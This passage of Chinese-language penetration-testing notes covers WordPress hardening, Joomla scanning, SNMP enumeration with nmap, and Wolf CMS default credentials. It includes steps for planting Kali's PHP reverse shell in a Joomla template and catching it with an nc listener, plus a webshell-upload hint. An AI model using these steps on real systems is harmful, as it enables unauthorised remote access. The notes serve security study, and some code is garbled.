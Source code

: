 6. 定期更新：  
    定期检查你的 WordPress 网站和所有插件、主题是否有最新的安全更新。
    

以下是一个简单的例子，展示如何在 `wp-config.php` 中定义数据库凭证，而不是直接暴露它们：

```php
php// 
wp-config.phpdefine('DB_NAME', 'your_database_name');
define('DB_USER', 'your_database_username');
define('DB_PASSWORD', 'your_database_password');
define('DB_HOST', 'localhost');
```

请注意，这些方法都需要你根据自己的安全策略和环境来实施。始终确保遵守最佳安全实践，并及时更新你的 WordPress 安装和插件。
#### joomla

joomscan

[渗透神器OWASPJoomScan安装使用详解-CSDN博客](https://blog.csdn.net/qq_51577576/article/details/130142187)
```shell
sudo joomscan --url http://192.168.56.108/joomla/
```

大马-修改Templates中的beez3中的文件
```shell
kali webshell文件路径：/usr/share/webshells/php/php-reverse-shell.php
修改为kali自带的php反弹shell代码，记得修改49行和50行的反弹主机和端口

kali：nc -vlp 9999

浏览器访问：http://192.168.2.199/joomla/templates/beez3/index.php
```
#### wolf cms

默认用户名：admin
默认密码：admin
登陆页面：x.x.x.x/?admin
漏洞：文件上传漏洞，可以上传webshell的php文件



# snmp服务

## 利用点

- 信息泄露风险：
    - 通过 SNMPWalk 获取的信息可能包含敏感信息，如系统名称、接口 IP 地址、用户账户等，要评估这些信息是否会导致安全漏洞。例如，泄露的接口 IP 地址可能被攻击者用于其他攻击，如针对这些 IP 地址的端口扫描或攻击。

## 1. 端口扫描
```
nmap -sU -p 161 <target_ip>
```
## 2. nmap脚本扫描
```
nmap --script=snmp-* -sU -p 161 <target_ip>
```
示例：
```
└─# nmap --script=snmp-* -sU -p 161 10.10.11.48
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-26 05:15 EST
Nmap scan report for 10.10.11.48
Host is up (0.17s latency).

PORT    STATE SERVICE
```